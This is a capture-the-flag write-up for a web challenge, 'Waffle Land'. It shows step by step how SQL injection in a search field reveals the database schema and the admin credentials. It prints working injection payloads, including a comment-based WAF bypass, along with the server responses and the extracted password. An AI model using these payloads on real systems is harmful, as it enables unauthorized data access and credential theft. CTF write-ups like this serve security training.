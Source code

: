 ```yaml
---
layout: post
title: "Waffle Land"
author: "shreyas-sriram"
tags: ['Web']
---
```


We got hacked, but our waffles are now safe after we mitigated the vulnerability.

Connect here:
[http://jh2i.com:50024](http://jh2i.com:50024)

## Solution
* Exploring the page, we find that it is mostly static except for the `Search` and `Signin` functionality
* Checking for SQL Injection (SQLi) in both, we find that the `Search` functionality is vulnerable to SQLi
* SQLi can be detected by entering input as `'`<br/>

**Payload**</br>
```
'
```

**Response**</br>
```
Bad Request
(sqlite3.OperationalError) unrecognized token: "'"
[SQL: select * from product where name like '%'%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

* It can be seen that `sqlite` is used as database
* All we have to do is inject and obtain data<br/>

**SQL Injection Exploitation Steps**</br>
1. Detect vulnerability :
	* already done
2. Find type of injection :
	* we know the response is gotten back
3. Find number of columns returned :
	1. Use `ORDER BY <column-number>`
	2. `--;` is used to end the SQL statement<br/>

**Payload**</br>
```
' ORDER BY 10 --;
````

**Response**</br>
```
Bad Request
(sqlite3.OperationalError) 1st ORDER BY term out of range - should be between 1 and 5
[SQL: select * from product where name like '%' ORDER BY 10 --;%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

4. Find the injectable columns :
	1. Use `UNION SELECT 1,2,3,4,..,x`
	2. In this case, we get `403 Forbidden`
	3. Probably there is a WAF (Web Application Firewall) checking inputs, this needs to be bypassed
	4. Using SQL comments found [here](https://incogbyte.github.io/sqli_waf_bypass/), we can bypass the WAF
	5. From the response image below, we see that `columns 2, 3, 4` are injectable

**Payload**</br>
```
'/**/UNION/**/SELECT/**/1,2,3,4,5 --;
````

**Response**</br>
![alt-text]({{site.baseurl}}/assets/Waffle-Land/vuln-cols.png)

5. Exploit the columns to extract data :
	1. Use `sql FROM sqlite_master` to get the `TABLE definitions`
	2. We get two TABLES - `product` and `user`
	3. `TABLE user` is what we are interested in<br/>

**Payload**</br>
```
'/**/UNION/**/SELECT/**/1,sql,3,4,5 FROM sqlite_master --;
```

**Response**</br>
```
CREATE TABLE product (
	id INTEGER NOT NULL, 
	name VARCHAR(40), 
	description VARCHAR(500), 
	prize VARCHAR(10), 
	image VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (name)
)

CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(40), 
	PRIMARY KEY (id), 
	UNIQUE (username)
)
```

6. Extract data from TABLE :
	1. Use `<column-names> FROM <table-names>`<br/>
	
**Payload**</br>
```
'/**/UNION/**/SELECT/**/1,username,password,4,5 FROM user --;
```

**Response**</br>
```
admin
$4
NT7b#ed4$J?eZ#m_
```

* Use the obtained username and password in `Signin` to get the flag

## Flag
```
flag{check_your_WAF_rules}
```